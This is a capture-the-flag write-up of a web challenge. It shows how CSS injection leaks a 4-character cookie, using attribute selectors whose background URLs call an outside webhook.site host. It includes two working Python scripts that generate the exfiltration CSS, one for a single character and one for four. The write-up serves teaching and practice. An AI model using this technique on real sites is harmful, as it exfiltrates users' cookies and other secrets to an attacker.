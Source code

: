 # Style Stealer (web) from Cyber Academy Spring 2024

Our goal is to leak the 4 character cookie from the webpage by using CSS injection.

When we open the URL, we see a text box that allows us to input CSS code, such as specifying the background of the webpage.

To carry out a CSS injection to leak a 1 character cookie, we would use the following code:
```
import string

alpha = string.ascii_lowercase
hook = "https://webhook.site/e169faa3-7516-48e8-a3fa-c30cb0568140"

css = []
for ch in alpha:
    css.append(f'[value="{ch}"] {{ background: url({hook}/?c={ch}); }}')

print("".join(css))
```

The idea is that the background we specify is only used if the value really does equal the specified ch. Our background
doesn't actually set the background to anything. Instead, the webpage visits the URL in an attempt to get the source
for the background. Webhook is a site that will let us know the requests sent to that site. This means that if we have the
ch be equal to 'd' and our webhook receives a GET request with the webhookurl with ?c=d at the end, we know that the cookie
value is d.

The 4 character cookie is a bit more difficult because we need to specify different variables for the different characters.
We set s-1 to be the first character, s-2 as the second character, and s-3 at the final pair for the third and fourth 
characters. If we tried to do it all in one massive for loop where the ch is equal to a string of 4 characters, it would
probably work, but the input would be way to big, since it would be 26^4, which is obviously a very big number.

The final solve script for our input is the following:
```
import string

alpha = string.ascii_lowercase
hook = "https://webhook.site/e169faa3-7516-48e8-a3fa-c30cb0568140"

css = []
css.append("input { background: var(--s-1), var(--s-2), var(--s-3); }")

for i in alpha:
    for j in alpha:
        ch = i + j
        css.append(f'[value^="{ch}"] {{ --s-1: url({hook}/s?c={ch}); }}')
        
for i in alpha:
        ch = i
        css.append(f'[value*="{ch}"] {{ --s-2: url({hook}/m?c={ch}); }}')

for i in alpha:
    for j in alpha:
        ch = i + j
        css.append(f'[value$="{ch}"] {{ --s-3: url({hook}/e?c={ch}); }}')

print("".join(css))
```
